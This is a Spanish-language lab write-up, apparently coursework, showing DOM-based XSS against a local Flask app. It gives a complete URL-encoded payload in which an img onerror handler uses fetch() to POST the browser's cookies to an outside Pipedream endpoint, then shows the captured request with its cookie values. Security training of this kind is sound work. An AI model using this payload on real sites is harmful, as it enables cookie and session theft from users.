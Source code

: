 # Práctica 7.3: DOM-based XSS

## Cómo realizar el ataque

1. Inicia la aplicación Flask ejecutando `python app.py` en la carpeta `3`.
    
2. Crea un endpoint en `https://pipedream.com`: `https://eoay3fm9fuuq3wd.m.pipedream.net`.
    
3. (Opcional) Inicia sesión en `http://localhost:5003/login` con las credenciales de un usuario (por ejemplo, `admin`/`admin`) para generar una cookie de sesión, o usa una cookie de prueba configurada en la ruta `/dom`.
    
4. Abre un navegador (Firefox o Pale Moon) y accede a:
    
    ```
    http://localhost:5003/dom?q=%3Cimg%20src%3Dx%20onerror%3D%22fetch(%27https:
    //eoay3fm9fuuq3wd.m.pipedream.net%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Adocument.
    cookie%7D)%22%3E
    ```
    
5. La plantilla `dom.html` inserta el parámetro `q` en el DOM con `innerHTML`, ejecutando el script en el atributo `onerror` de la etiqueta `<img>`.
    

## Resultado

- El script envía una solicitud POST a `https://eoay3fm9fuuq3wd.m.pipedream.net` con las cookies del navegador en el cuerpo de la solicitud.
    
- En Pipedream, se observa la solicitud POST con un cuerpo como `test_cookie=test_value_123` : "steps.trigger{2}
    
    context{19}
    
    event{7}
    
    method:`POST`
    
    path:`/`
    
    •
    
    query{0}
    
    client_ip:`47.62.14.56`
    
    url:`https://eoay3fm9fuuq3wd.m.pipedream.net/`
    
    headers{13}
    
    body
    
    `language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJlGM1wWxalND5reZRLzmXk6BbmzZRb3; test_cookie=test_value_123"`
    
- Esto demuestra que la aplicación es vulnerable a DOM-based XSS, permitiendo el robo de cookies.